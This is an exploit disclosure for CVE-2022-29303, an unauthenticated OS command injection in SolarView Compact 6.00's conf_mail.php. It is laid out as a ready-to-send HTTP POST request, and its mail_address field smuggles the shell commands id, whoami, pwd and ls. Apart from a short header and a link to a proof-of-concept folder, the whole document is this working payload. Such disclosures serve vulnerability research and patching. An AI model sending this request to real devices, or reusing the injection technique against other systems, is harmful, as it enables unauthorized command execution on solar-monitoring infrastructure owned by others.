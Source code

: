 # Exploit Title: SolarView Compact ver.6.00 OS command injection vulnerability affects conf_mail.php

# Date: 2022-05-15
# Exploit Author: Ahmed Alroky
# Author Company : AIactive
# Version: ver.6.00
# Vendor home page : https://www.contec.com/
# Authentication Required: No
# CVE : CVE-2022-29303

# Tested on: Windows


# Exploit
# HTTP Request :
POST /conf_mail.php HTTP/1.1
Host: HOST_IP
Content-Length: 77
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://HOST_IP
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://HOST_IP/conf_mail.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

mail_address=%3Bid%3Bwhoami%3Bpwd%3Bls%3B&button=%83%81%81%5B%83%8B%91%97%90M


# Poc
https://drive.google.com/drive/u/1/folders/1tGr-WExbpfvhRg31XCoaZOFLWyt3r60g